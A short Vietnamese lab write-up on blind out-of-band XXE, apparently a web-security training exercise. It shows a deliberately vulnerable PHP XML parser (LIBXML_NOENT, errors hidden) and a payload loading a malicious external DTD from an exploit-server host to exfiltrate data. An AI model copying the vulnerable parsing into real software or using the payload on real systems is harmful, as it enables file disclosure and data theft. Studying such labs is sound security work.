



- Em có đoạn check như sau:


```
<?php
ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
error_reporting(E_ALL);
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $xml = file_get_contents('php://input');
    if ($xml) {
        $data = simplexml_load_string($xml, null, LIBXML_NOENT);
        if ($data !== false) {
            $productId = $data->storeId;

            echo "The productId exists";
        } else {
            echo "Failed to parse XML data";
        }
    } else {
        echo "No XML data received";
    }
} else {

    echo "Only POST requests are allowed";
}
?>


- Lưu ý là phải set không hiển thị thông báo lỗi

ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
error_reporting(E_ALL);

```

- Khi mà em chọn vật phẩm thì sẽ gửi đến 1 xml đến sever và sẽ nhận được thông báo có tồn tại hay không ở trong thông báo ạ

- Bây giờ em sẽ tạo 1 file dtd mạo danh


- Entity eval sẽ gọi đến exploits sever của ta và gửi với param x

- Em dùng entity xxe để load dtd mạo danh
- 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0ad7006003a1331480fb4d8901b5007a.exploit-server.net/exploit.dtd"> %xxe;]>

<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- Và em nhận được kết quả 
